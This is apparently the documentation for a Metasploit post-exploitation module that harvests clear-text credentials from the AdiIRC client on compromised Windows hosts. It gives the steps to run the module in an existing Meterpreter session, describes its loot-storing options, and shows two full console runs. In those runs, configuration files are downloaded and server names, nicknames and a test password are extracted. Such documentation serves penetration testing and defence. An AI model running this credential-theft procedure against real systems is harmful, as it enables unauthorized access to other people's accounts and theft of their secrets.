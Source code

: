## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Adi IRC Client.

The Adi IRC Client is avaialble from (https://www.adiirc.com/).

This module extracts information from the config.ini and networks.ini files in the "AppData\Local\AdiIRC" directory.

This module extracts server information such as server name, server port, user name, and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/adi_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### AdiIRC Client v4.4 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Default Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Adi irc's Config file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083920_default_10.0.0.2_AdiIRCconfig.ba_051695.bak

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_949744.bak
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCconfig.in_618977.ini

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_981500.ini
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCnetworks._976889.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_EXTRACTIONconfig_407804.ini
[*] Adi irc's Networks file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._497206.ini

[*] undefined method `each' for nil:NilClass
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._102963.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### AdiIRC Client v4.4 on Microsoft Windows 10 Home 10.0.19045 N/A Build 19045 - Verbose Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Adi irc's base folder not found in user's user directory

[-] Adi irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for config.
[*] Adi irc's Config file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083813_default_10.0.0.2_AdiIRCconfig.ba_900175.bak

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_209914.bak
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCconfig.in_918837.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_383684.ini
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._579169.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_073623.ini
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for networks.
[*] Adi irc's Networks file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._045399.ini

[*] undefined method `each' for nil:NilClass
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083815_default_10.0.0.2_AdiIRCnetworks._439992.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```
